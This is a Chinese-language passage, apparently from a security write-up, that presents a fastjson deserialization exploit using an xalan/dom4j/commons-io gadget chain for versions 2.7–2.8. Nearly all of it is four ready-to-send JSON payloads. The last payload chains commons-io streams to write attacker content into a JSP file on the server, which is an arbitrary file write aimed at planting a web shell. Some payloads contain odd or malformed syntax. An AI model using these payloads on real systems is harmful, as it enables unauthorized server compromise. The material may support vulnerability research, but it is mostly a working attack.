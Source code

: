 ### 5.3.2 xalan+dom4j+commons-io（2.7~2.8 版本）

还是分四步打。

`payload51`（组合拳）：

```plain
{"@type":"java.lang.Exception","@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}
```

```plain
{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.apache.xml.dtm.DTMConfigurationException","locator":{}}}}
```

```plain
{"su14":{"@type":"javax.xml.transform.SourceLocator","@type":"org.apache.xpath.objects.XNodeSetForDOM","nodeIter":{"@type":"org.apache.xpath.NodeSet"},"xctxt":{"@type":"org.apache.xpath.XPathContext","primaryReader":{"@type":"org.dom4j.io.XMLWriter","entityResolver":{"@type":"org.dom4j.io.SAXContentHandler","inputSource":{"byteStream":{"@type":"java.io.InputStream"}}}}}}}
```

```plain
{"su16":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker999.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su17":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su18":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]},"su19":{"@type":"java.io.InputStream","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}
```
